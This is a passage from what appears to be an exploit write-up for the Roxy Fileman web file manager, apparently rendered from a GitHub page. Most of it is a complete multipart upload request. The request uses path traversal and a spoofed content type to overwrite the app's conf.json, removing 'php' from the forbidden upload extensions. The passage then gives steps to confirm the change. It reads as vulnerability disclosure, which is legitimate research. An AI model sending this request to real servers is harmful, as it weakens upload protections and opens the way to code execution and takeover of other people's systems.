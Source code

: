 Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

------WebKitFormBoundaryyvbOyiQFuiy0akbE
Content-Disposition: form-data; name="action"

upload
------WebKitFormBoundaryyvbOyiQFuiy0akbE
Content-Disposition: form-data; name="method"

ajax
------WebKitFormBoundaryyvbOyiQFuiy0akbE
Content-Disposition: form-data; name="d"

/fileman/Uploads/..
------WebKitFormBoundaryyvbOyiQFuiy0akbE
Content-Disposition: form-data; name="files[]"; filename="admin.json"
Content-Type: image/jpeg


{
"FILES_ROOT":          "",
"RETURN_URL_PREFIX":   "",
"SESSION_PATH_KEY":    "",
"THUMBS_VIEW_WIDTH":   "140",
"THUMBS_VIEW_HEIGHT":  "120",
"PREVIEW_THUMB_WIDTH": "100",
"PREVIEW_THUMB_HEIGHT":"100",
"MAX_IMAGE_WIDTH":     "1000",
"MAX_IMAGE_HEIGHT":    "1000",
"INTEGRATION":         "tinymce4",
"DIRLIST":             "php/dirtree.php",
"CREATEDIR":           "php/createdir.php",
"DELETEDIR":           "php/deletedir.php",
"MOVEDIR":             "php/movedir.php",
"COPYDIR":             "php/copydir.php",
"RENAMEDIR":           "php/renamedir.php",
"FILESLIST":           "php/fileslist.php",
"UPLOAD":              "php/upload.php",
"DOWNLOAD":            "php/download.php",
"DOWNLOADDIR":         "php/downloaddir.php",
"DELETEFILE":          "php/deletefile.php",
"MOVEFILE":            "php/movefile.php",
"COPYFILE":            "php/copyfile.php",
"RENAMEFILE":          "php/renamefile.php",
"GENERATETHUMB":       "php/thumb.php",
"DEFAULTVIEW":         "list",
"FORBIDDEN_UPLOADS":   "zip js jsp jsb mhtml mht xhtml xht phtml php3 php4 php5 phps shtml jhtml pl sh py cgi exe application gadget hta cpl msc jar vb jse ws wsf wsc wsh ps1 ps2 psc1 psc2 msh msh1 msh2 inf reg scf msp scr dll msi vbs bat com pif cmd vxd cpl htpasswd htaccess",
"ALLOWED_UPLOADS":     "",
"FILEPERMISSIONS":     "0644",
"DIRPERMISSIONS":      "0755",
"LANG":                "auto",
"DATEFORMAT":          "dd/MM/yyyy HH:mm",
"OPEN_LAST_DIR":       "yes"
}
------WebKitFormBoundaryyvbOyiQFuiy0akbE--
```
(Note that "FORBIDDEN_UPLOADS" does not contain php)

![46.png](./img/46.png)

Log in to the user account and go to ```http://domain.com/fileman/index.php```. You will find that "FORBIDDEN_UPLOADS" of /fileman/conf.json does not contain “php”:

![47.png](./img/47.png)
```